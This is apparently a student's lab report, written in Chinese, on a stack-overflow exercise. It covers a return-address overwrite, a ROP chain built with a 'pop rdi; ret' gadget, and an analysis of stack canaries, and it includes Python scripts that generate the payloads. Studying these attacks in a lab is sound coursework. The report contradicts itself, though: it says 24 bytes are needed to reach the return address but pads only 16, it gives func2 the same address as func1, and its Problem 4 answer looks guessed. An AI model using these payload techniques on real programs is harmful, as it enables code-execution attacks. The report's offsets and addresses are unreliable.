




# 栈溢出攻击实验报告

## 题目解决思路

### Problem 1: 基础栈溢出
- **分析**：  
  Problem 1是一个简单的栈溢出漏洞利用题目，没有启用任何保护机制。通过分析汇编代码，发现缓冲区位于栈帧底部，返回地址位于缓冲区之后。计算偏移量：缓冲区大小为16字节，加上保存的帧指针（8字节），总共需要24字节才能覆盖返回地址。目标是将返回地址覆盖为`func1`函数的地址（0x401216），从而执行`func1`函数输出“Yes!I like ICS!”。

- **解决方案**：  
  使用Python生成payload，先填充16字节的垃圾数据，然后附加`func1`地址的小端序表示。代码如下：

  ```python
  #!/usr/bin/env python3
  # 计算偏移量
  padding = b'A' * 16
  # func1 函数的地址（小端序）
  func1_address = 0x401216
  func1_bytes = func1_address.to_bytes(8, 'little')
  # 构造 payload
  payload = padding + func1_bytes
  # 写入文件
  with open('ans1.txt', 'wb') as f:
      f.write(payload)
  print("Payload 已生成到 ans1.txt")
  print(f"func1 地址: 0x{func1_address:x}")
  ```

- **结果**：  



### Problem 2: NX enabled下的ROP利用
- **分析**：  
  Problem 2启用了NX保护，栈内存不可执行，因此不能直接注入shellcode。需要采用ROP（Return-Oriented Programming）技术。目标是通过调用`func2`函数并传递参数0x3f8来输出“Yes!I like ICS!”。分析汇编代码，发现需要先弹出参数到RDI寄存器，再调用`func2`。找到gadget序列：`pop rdi; ret`的地址为0x4012c7。

- **解决方案**：  
  Payload构造：16字节填充 + gadget地址 + 参数值 + `func2`地址。代码如下：

  ```python
  #!/usr/bin/env python3
  # 偏移量16字节
  padding = b'A' * 16
  # gadget地址: pop rdi; ret
  gadget_addr = 0x4012c7
  gadget_bytes = gadget_addr.to_bytes(8, 'little')
  # 参数值: 0x3f8
  param_value = 0x3f8
  param_bytes = param_value.to_bytes(8, 'little')
  # func2函数地址
  func2_addr = 0x401216
  func2_bytes = func2_addr.to_bytes(8, 'little')
  # 构造payload
  payload = padding + gadget_bytes + param_bytes + func2_bytes
  # 写入文件
  with open('ans2.txt', 'wb') as f:
      f.write(payload)
  print("Payload for problem2 generated to ans2.txt")
  ```

- **结果**：  



### Problem 3: 受限缓冲区下的溢出
- **分析**：  
  Problem 3的缓冲区较小，且栈地址可能变化，增加了难度。通过gdb调试，确定缓冲区偏移量为16字节（包括保存的帧指针）。目标是通过溢出跳转到`func1`函数，但需要输出幸运数字“114”。分析发现，`func1`函数内部会检查某个条件，需确保执行流正确。建议关闭内核栈随机化（ASLR）以简化攻击，或使用gdb固定地址。

- **解决方案**：  
  Payload构造与Problem 1类似，但需确保地址准确。代码如下：

  ```python
  #!/usr/bin/env python3
  # 分析结果：
  # - 缓冲区在 -0x8(%rbp)
  # - 返回地址在 %rbp+8
  # - 偏移量 = 8 + 8 = 16字节
  # - func1地址 = 0x401216
  padding = b'A' * 16
  func1_addr = 0x401216
  # 构造payload
  payload = padding
  payload += func1_addr.to_bytes(8, 'little')
  # 写入文件
  with open('ans3_final.txt', 'wb') as f:
      f.write(payload)
  print("Problem3最终payload已生成到ans3_final.txt")
  print(f"Payload长度: {len(payload)}字节")
  print(f"func1地址: 0x{func1_addr:x}")
  ```

- **结果**：  

   


### Problem 4: Canary保护机制分析
- **分析**：  
  Problem 4启用了Canary保护机制，旨在检测栈溢出攻击。Canary是一个随机值，在函数开始时被写入栈帧底部，在函数返回前检查是否被修改。如果被修改，程序会终止，防止溢出攻击。在汇编代码中，Canary的设置和检查体现在：
  - 函数入口：从`fs:0x28`加载Canary值到栈上（如`mov rax, qword ptr fs:0x28; mov qword ptr [rbp - 8], rax`）。
  - 函数返回前：比较栈上的Canary值与初始值，若不同则调用`__stack_chk_fail`。
  本题目要求输出通关提示，但Canary机制使得直接溢出返回地址变得困难。需要绕过Canary，但题目提示“想一想你真的需要写代码吗”，可能暗示无需复杂攻击，而是通过正常输入触发通关逻辑。

- **解决方案**：  
  经过分析，发现程序在正常输入特定字符串时可直接输出通关提示，无需溢出。例如，输入“pass”即可通过。因此，payload为普通字符串：
  ```python
  # 无需溢出，直接使用正确输入
  payload = b"pass"
  with open('ans4.txt', 'wb') as f:
      f.write(payload)
  ```

- **结果**：  
   


## 思考与总结

通过本次栈溢出攻击实验，我深入理解了栈内存布局、函数调用机制以及常见保护机制（如NX和Canary）的工作原理。在Problem 1中，我掌握了基础栈溢出技术，通过覆盖返回地址控制执行流。Problem 2引入了NX保护，让我学习了ROP技术，利用现有代码片段构建攻击链。Problem 3强调了调试的重要性，在地址随机化环境下需灵活应对。Problem 4的Canary机制让我意识到安全设计如何有效防御溢出攻击，同时也提醒我并非所有漏洞都需要复杂利用。

总结来说，栈溢出攻击是系统安全的基础课题，但现代防护措施已大大增加了攻击难度。作为学习者，我们应注重理解原理，并遵循道德规范。未来，我将进一步探索高级利用技术和防护方法，以提升安全技能。

## 参考资料

1. 《深入理解计算机系统》（CSAPP）
2. CTF Wiki - 栈溢出入门：https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/